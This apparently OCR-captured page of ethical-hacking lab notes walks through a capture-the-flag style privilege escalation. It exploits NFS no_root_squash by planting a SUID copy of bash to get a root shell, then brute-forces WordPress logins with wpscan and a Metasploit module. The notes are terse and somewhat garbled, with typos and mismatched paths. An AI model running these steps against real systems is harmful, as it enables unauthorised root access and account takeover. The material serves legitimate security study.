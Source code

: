 
vulnerability : Nfs squash method
if you have time Follow this tutorial only
https://juggernaut-sec.com/nfs-no_root_squash/#Example_1_Crafting_an_Exploit_for_a_Root_Shell
or
### Perform vertical privilege escalation of a root user, and enter the flag
Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`

after them, In another terminal:

* Access to target using SSH
ssh smith@192.168.0.x
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`


	#Windows cmds 

		Net  user
        Snow.exe -C -p “given_password” file_name
        —---------------------

        -wpscan --url http://10.10.10.12:8080/CEG --enumerate u
        msfconsole
        use axiliary/scanner/http/wordpress_login_enum
        PASS_FILE /root/Desktop/wordlists/Passwords.txt
        set RHOSTs 10.10.10.12
        set RPORT 8080
        set TARGETURI http://10.10.10.12:8080/CEH/
        set USERNAME admin
        run
